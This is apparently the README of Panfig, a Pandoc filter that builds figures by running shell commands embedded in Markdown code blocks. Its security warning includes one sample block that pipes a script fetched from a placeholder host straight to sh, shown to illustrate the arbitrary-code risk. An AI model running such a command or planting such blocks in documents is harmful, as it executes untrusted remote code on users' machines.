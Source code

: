 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files containing figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Makefile or something to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o %s"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for heaven's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care about it.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would do arbitrarily bad stuff.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

1. **Install.** First things, of course, first: `pip install panfig`.

2. **Write Markdown.** In your Markdown file, where you want a figure, write a code block that describes how to generate the desired figure. For example:

        ~~~~~~~~ { .panfig shell="dot -Tpng -o %s" }
          digraph G {
            on -> off;
            off -> on;
          }
        ~~~~~~~~

    This uses Pandoc's [fenced code block](http://pandoc.org/README.html#fenced-code-blocks) syntax to give the block the `.panfig` class (to flag it for processing by Panfig), and a `shell` attribute specifying the command that will generate the figure. (It's a `printf`-style format string, so `%s` is replaced by the `sh`-escaped path to the image file that should be created.) The shell command is run, with the contents of the code block passed to the subprocess's standard input. It's that simple!

3. **Compile the document.** Invoke `pandoc` to compile the document as you normally would, but add the option `--filter panfig`. (If the `panfig` executable isn't on your default path -- for example, if you use Virtualenv -- you may need to pass the full path to the `panfig` executable, e.g. `~/.virtualenv/3.4/bin/panfig`.)


### Bells and Whistles

#### Aliases

An alias specifies a set of attributes that Panfig should pretend a block has. For example, instead of writing `shell="dot -Tpng -o %s"` for all your graphs, you could instead define an alias, like so:

        ~~~~~~~~ { .panfig-aliases }
          {"dot": {"shell": "dot -Tpng -o %s"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

This is exactly, 100% identical to

        ~~~~~~~~ { .panfig shell="dot -Tpng -o %s" }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

The body of a `.panfig-aliases` block should be a JSON object of the form `{"alias-name": {"attr": "value", ...}, ...}` -- that is, mapping alias names to objects, which in turn specify the attributes you're using the alias as a shorthand for.

Panfig comes with several aliases predefined:

- `dot`: uses `dot` to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

- `mathematica` uses Mathematica to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=mathematica }
          Plot[Sin[x], {x, 0, 2 Pi}] (* last result is `Export`ed *)
        ~~~~~~~~

- `matplotlib` uses Matplotlib to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=matplotlib }
          import numpy as np
          xs = np.linspace(0, 2*np.pi, 100)
          plt.plot(xs, np.sin(xs)) # matplotlib.pyplot is already imported as plt
          # plt.savefig() is called at the end to generate the image
        ~~~~~~~~


#### Text Processing

Often, to avoid code duplication, you'll want to massage the code block's contents in some way. Panfig supports some special attributes that will perform common massaging operations:

- `prologue="..."`: prepends the attribute-value to the block's contents (separated by a newline)
- `epilogue="..."`: appends the attribute-value to the block's contents (separated by a newline)
- `dedent=true`: removes an equal amount of whitespace (as much as possible, given that constraint) from the beginning of each line

This is all stuff that you *could* do just by constructing a fancy pipeline in your `shell` command, but... what a pain.

For example:


        ~~~~~~~~ { .panfig-aliases }
          {"fsm": {"shell": "dot -Tpng -o %s",
                   "prologue": "digraph G { _start [shape=\"none\", label=\"\"];",
                   "epilogue": "}"}}
        ~~~~~~~~

        ~~~~~~~~ {.panfig alias=fsm}
          _start -> off;
          on [shape="doublecircle"];
          on -> off;
          off -> on;
        ~~~~~~~~
